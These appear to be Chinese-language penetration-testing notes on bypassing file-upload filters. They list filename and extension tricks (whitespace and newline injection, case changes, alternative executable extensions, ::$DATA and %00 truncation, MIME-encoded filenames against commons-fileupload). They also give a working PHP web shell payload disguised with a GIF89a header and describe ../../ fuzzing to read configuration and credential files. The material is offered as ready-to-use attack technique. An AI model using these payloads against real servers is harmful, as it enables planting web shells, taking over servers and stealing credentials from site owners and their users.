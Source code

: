 ## 文件不解析
上传html文件不解析，修改`Content-Type: text/html`来设置文件格式

## 名称/后缀检测绕过
### 黑白名单判断
瞎写一个文件后缀，如上传 `tx` 可以，上传jsp不行，则上传限制为黑名单控制。

### 在filename字符左右加上一些空白字符
`filename="1.jsp"  ->  %20filename%0a="1.jsp"`

%20：空格	%0a：换行

或者后缀使用空格：

`后缀中间加空格：.js p	后缀后面加两个空格再加正常的后缀：a.jsp  .xls`

### 文件内容检测绕过
文件头：Content-Type: image/jpeg

文件内容：

 GIF89a?

 <?php

 Eval($_POST["pass"]);

(有可能会检测文件内容，例如不允许有危险函数eval)

### java特殊编码绕过（针对commons-fileupload组件）
`filename="=?gbk?Q?=31=2e=6a=73=70?="`

`filename="=?utf-8?B?MS5qc3A=?="`

文章：[https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F](https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F)

### 名称替换绕过
asp：asa、cer、cdx、htr、cfm、stm、shtm、shtml

aspx：ashx、asax、asmx、ascx、svc、soap、cshtml、config  
php：pht、php3、php5、phtml、shtml  
jsp：jspx、jspf、jspa、jsw、jsv、jtml、war

stm/shtm/shtml类型不能getshell，<font style="color:rgba(0, 0, 0, 0.9);">但可以获取到一些基本信息，而且可以使用</font>`<font style="color:rgb(223, 42, 63);background-color:rgba(0, 0, 0, 0.06);">include</font>`将`<font style="color:rgb(223, 42, 63);background-color:rgba(0, 0, 0, 0.06);">web.config</font>`、`<font style="color:rgb(223, 42, 63);background-color:rgba(0, 0, 0, 0.06);">conn.asp</font>`等文件中的内容包含出来查看，还可以尝试使用`<font style="color:rgb(223, 42, 63);background-color:rgba(0, 0, 0, 0.06);">../../</font>`跨目录形式`<font style="color:rgb(223, 42, 63);background-color:rgba(0, 0, 0, 0.06);">fuzzing</font>`看是否能包含到一些有权限读取的铭感配置文件或凭据信息等

![](https://cdn.nlark.com/yuque/0/2025/png/12986640/1748790412541-2d6af258-7626-4f01-88e0-d13fe2558c60.png)

### 后缀大小写检测绕过
Php、PHP、jsP

### 后缀添加特殊字符
`:、空格、::$DATA、.,$,/.,=等字符`，`: `只针对windows系统，会将后面的截断

### 截断绕过
`: ; %00 ’ ^`等符号截断，windows成功率比较高，因为windows在创建文件时这些特殊字符是不允许出现的。

